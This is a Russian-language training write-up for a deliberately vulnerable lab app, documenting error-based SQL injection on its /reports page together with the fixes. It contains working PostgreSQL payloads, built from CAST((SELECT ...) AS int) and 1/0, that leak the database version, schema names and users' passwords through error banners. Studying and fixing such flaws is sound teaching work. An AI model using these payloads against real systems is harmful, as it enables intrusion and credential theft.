

# Уязвимость №5: error-based SQL-инъекция на странице `/reports`

Учебный стенд: [DB_SEC_SITE](https://github.com/Wheatgrh/DB_SEC_SITE)  
Раздел интерфейса: **SQL Reports** → `http://localhost:3000/reports`  
Тип уязвимости: **Error-based SQL Injection** (извлечение данных через сообщения об ошибках PostgreSQL)

> Связано с [sql_injection_2.md](./sql_injection_2.md) (та же страница и функция `run_custom_report`), но отдельный класс атаки — данные утекают **не в таблицу**, а в **текст ошибки**.

---

## Краткое описание

На странице «Пользовательские SQL-отчёты» пользователь вводит фрагмент `WHERE`. Значение попадает в динамический SQL функции `training.run_custom_report`. Если запрос падает с ошибкой, приложение **показывает полный текст `err.message`** пользователю.

Атакующий намеренно вызывает ошибку преобразования типов (`CAST(текст AS int)`). PostgreSQL включает в сообщение **сам текст**, который не удалось преобразовать — версию СУБД, имена таблиц, колонок и даже пароли.

Пользователь `alice` (student) может проводить **разведку структуры БД** и извлекать данные без UNION в таблице результатов.

---

## Затронутые файлы

| Файл | Роль в уязвимости |
|------|-------------------|
| `db/init/01-schema.sql` | `EXECUTE format(..., raw_where_clause)` в `run_custom_report` |
| `src/lib/server/db.ts` | Вызов `runCustomReport(whereClause)` |
| `src/routes/reports/+page.server.ts` | **Утечка:** `error: err.message` в ответ клиенту |
| `src/routes/reports/+page.svelte` | Отображение `{form.error}` в красном баннере |

---

## Как устроена уязвимость

### 1. Динамический SQL (как в задании №2)

```sql
CREATE OR REPLACE FUNCTION training.run_custom_report(raw_where_clause text)
...
BEGIN
    RETURN QUERY EXECUTE format(
        'SELECT ... WHERE %s ORDER BY i.id',
        raw_where_clause
    );
END;
```

Пользовательский ввод становится частью `WHERE`.

### 2. Вывод ошибок клиенту

```typescript
} catch (err) {
    return fail(400, {
        whereClause,
        error: err instanceof Error ? err.message : 'Unknown SQL error'
    });
}
```

**Проблема:** PostgreSQL пишет в `message` детали, включая **значения из запроса**.

### 3. Приём error-based: CAST в integer

Шаблон payload:

```sql
u.username = 'alice' AND CAST((SELECT <секрет>) AS int) = 1
```

| Шаг | Что происходит |
|-----|----------------|
| 1 | Подзапрос `SELECT version()` / `table_name` / `password` возвращает **текст** |
| 2 | `CAST(... AS int)` пытается сделать из текста число |
| 3 | Строка `"PostgreSQL 16..."` или `"password"` не число → **ошибка** |
| 4 | Текст ошибки: `invalid input syntax for type integer: "<утечка>"` |
| 5 | Баннер на странице показывает `<утечка>` |

---

## Предусловия для проверки

1. `docker compose up --build`
2. Вход: `alice` / `alice123`
3. Страница: http://localhost:3000/reports

---

## Пошаговая проверка

### Шаг 1. Подтверждение error-based (division by zero)

**WHERE fragment:**

```
u.username = 'alice' AND 1/0 = 1
```

**Ожидаемый результат:** баннер `division by zero`, таблица пустая.

**Вывод:** ввод выполняется как SQL; ошибки БД видны в UI.

---

### Шаг 2. Версия PostgreSQL

**WHERE fragment:**

```
u.username = 'alice' AND CAST((SELECT version()) AS int) = 1
```

**Ожидаемый результат (пример):**

```
invalid input syntax for type integer: "PostgreSQL 16.14 (Debian 16.14-1.pgdg13+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 14.2.0-19) 14.2.0, 64-bit"
```

| Что узнали | Значение |
|------------|----------|
| СУБД | PostgreSQL **16.14** |
| ОС | Debian, x86_64 |
| Тип атаки | Fingerprinting / разведка |

---

### Шаг 3. Имя таблицы в схеме `training`

**WHERE fragment:**

```
u.username = 'alice' AND CAST((SELECT table_name FROM information_schema.tables WHERE table_schema='training' LIMIT 1) AS int) = 1
```

**Ожидаемый результат (пример):**

```
invalid input syntax for type integer: "audit_events"
```

**Перебор таблиц** — менять `OFFSET`:

```sql
... LIMIT 1 OFFSET 0  → audit_events (или другая по порядку)
... LIMIT 1 OFFSET 1  → app_users
... LIMIT 1 OFFSET 2  → customers
... LIMIT 1 OFFSET 3  → invoices
... LIMIT 1 OFFSET 4  → sessions
```

---

### Шаг 4. Имя колонки в `app_users`

**WHERE fragment:**

```
u.username = 'alice' AND CAST((SELECT column_name FROM information_schema.columns WHERE table_name='app_users' LIMIT 1 OFFSET 2) AS int) = 1
```

**Ожидаемый результат (пример):**

```
invalid input syntax for type integer: "password"
```

**Вывод:** в таблице пользователей есть колонка **`password`** — цель для дальнейших UNION/blind/error запросов.

Перебор `OFFSET 0, 1, 2...` раскрывает все колонки: `id`, `username`, `password`, `full_name`, `role`, `email`.

---

### Шаг 5. Извлечение пароля через error-based

**WHERE fragment:**

```
u.username = 'alice' AND CAST((SELECT password FROM training.app_users WHERE username='bob') AS int) = 1
```

**Ожидаемый результат (пример):**

```
invalid input syntax for type integer: "bob123"
```

Аналогично для `carol`:

```
u.username = 'alice' AND CAST((SELECT password FROM training.app_users WHERE username='carol') AS int) = 1
```

→ `"carol123"` в тексте ошибки.

---

### Шаг 6. Доказательство в интерфейсе

1. F12 → **Network**
2. Отправить отчёт с payload из шага 2
3. POST `/reports` → в HTML ответа найти текст ошибки в баннере

---

## Сводная таблица payload'ов

| Payload (фрагмент WHERE) | Что утекает в ошибке |
|--------------------------|----------------------|
| `u.username = 'alice' AND 1/0 = 1` | `division by zero` (подтверждение SQLi) |
| `... CAST((SELECT version()) AS int) ...` | Версия PostgreSQL |
| `... information_schema.tables ... training ...` | Имя таблицы (`audit_events`, …) |
| `... information_schema.columns ... app_users ...` | Имя колонки (`password`, …) |
| `... SELECT password ... WHERE username='bob' ...` | Пароль `bob123` |

---

## Схема атаки



---

## Влияние (Impact)

- **Разведка:** версия СУБД, схема `training`, структура таблиц без доступа к коду
- **Конфиденциальность:** пароли и другие поля через `CAST((SELECT поле) AS int)`
- **Усиление других атак:** после обнаружения колонки `password` — UNION и blind на `/catalog` и `/reports`
- **CWE:** CWE-89 (SQL Injection) + CWE-209 (Generation of Error Message Containing Sensitive Information)

---

## Отличие от UNION и blind

| Метод | Где видны данные | Пример |
|-------|------------------|--------|
| **UNION** | В таблице результатов | `1=0 UNION SELECT username, password ...` |
| **Error-based** | В тексте ошибки (баннер) | `CAST((SELECT password...) AS int)` |
| **Blind boolean** | По наличию/отсутию строк | `AND (SELECT ...)= 'b'` → строки есть/нет |
| **Blind time** | По задержке ответа | `pg_sleep(3)` |

---

## Как исправить

### Исправление 1. Убрать динамический WHERE (как в sql_injection_2.md)

Фиксированный параметризованный запрос вместо `format(..., %s)`.

### Исправление 2. Не показывать SQL-ошибки пользователю (обязательно)

**Файл:** `src/routes/reports/+page.server.ts`

**Было:**

```typescript
return fail(400, {
    whereClause,
    error: err instanceof Error ? err.message : 'Unknown SQL error'
});
```

**Стало:**

```typescript
console.error('Report error', err);
return fail(400, {
    error: 'Не удалось сформировать отчёт. Проверьте параметры фильтра.'
});
```

### Исправление 3. Убрать поле WHERE fragment из UI

Пользователь не должен задавать произвольный SQL-текст.

### Исправление 4. На уровне БД

- Убрать `SECURITY DEFINER` у `run_custom_report`
- Ограничить права `app_user`
- Не использовать `EXECUTE format` с пользовательским вводом

---

## Проверка после исправления

| Тест | До исправления | После исправления |
|------|----------------|-------------------|
| `CAST((SELECT version()) AS int)` | Версия PG в баннере | Общее сообщение без деталей |
| `CAST((SELECT password...) AS int)` | `bob123` в ошибке | Нет утечки пароля |
| `1/0` | `division by zero` | Общая ошибка без SQL-текста |

---

## Связанные документы

| Документ | Связь |
|----------|-------|
| [sql_injection_2.md](./sql_injection_2.md) | Та же страница, UNION и `1=1` |
| [sql_injection_1.md](./sql_injection_1.md) | SQLi в каталоге |
| [algoritme.md](./algoritme.md) | Этап 3.3 в цепочке практики |

---

## Чеклист для отчёта

- [ ] Объяснён шаблон `CAST((SELECT ...) AS int) = 1`
- [ ] Зафиксирована утечка `version()` → PostgreSQL 16.14
- [ ] Зафиксирована утечка `information_schema.tables` → `audit_events`
- [ ] Зафиксирована утечка `information_schema.columns` → `password`
- [ ] (Опц.) Пароль bob через `SELECT password` в CAST
- [ ] Указан файл `reports/+page.server.ts` и `err.message`
- [ ] Описано исправление: generic error message

---

<p align="center">
  <sub>Уязвимость №5 · Error-based SQLi · /reports · 2026</sub>
</p>
